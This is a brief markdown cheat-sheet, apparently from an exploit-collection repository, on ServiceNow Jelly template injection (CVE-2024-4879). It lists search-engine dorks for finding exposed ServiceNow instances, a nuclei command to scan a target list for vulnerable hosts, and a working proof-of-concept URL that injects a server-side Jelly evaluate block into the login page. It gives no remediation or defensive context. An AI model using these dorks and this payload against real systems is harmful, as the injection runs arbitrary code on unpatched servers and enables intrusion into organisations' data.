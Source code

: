 ### Jelly Template Injection Vulnerability in ServiceNow

#### Tag
```servicenow```

#### Dorks
```
Shodan - "Server: ServiceNow"
FOFA   - app="servicenow-Products"
Hunter - /product.name="ServiceNow"
```

#### Nuclei Scanning
```
# Download original template for cve-2024-4879.yaml
# https://github.com/Brut-Security/CVE-2024-4879

nuclei -l targets.txt -t cve-2024-4879.yaml -o vulnerable_targets.txt
```

#### Exploit POC
```
https://<ip>/login.do?jvar_page_title=<style><j:jelly%20xmlns:j="jelly"%20xmlns:g='glide'><g:evaluate>gs.addErrorMessage(7*7);</g:evaluate></j:jelly></style>
```

#### Refereces
- https://codewithvamp.medium.com/servicenow-template-injection-vulnerability-cve-2024-4879-cve-2024-5178-cve-2024-5217-1165441beb8e
- https://github.com/Brut-Security/CVE-2024-4879
- https://www.youtube.com/watch?v=tqophl7sByc
- https://www.youtube.com/watch?v=__r7tz47Lso&t=221s

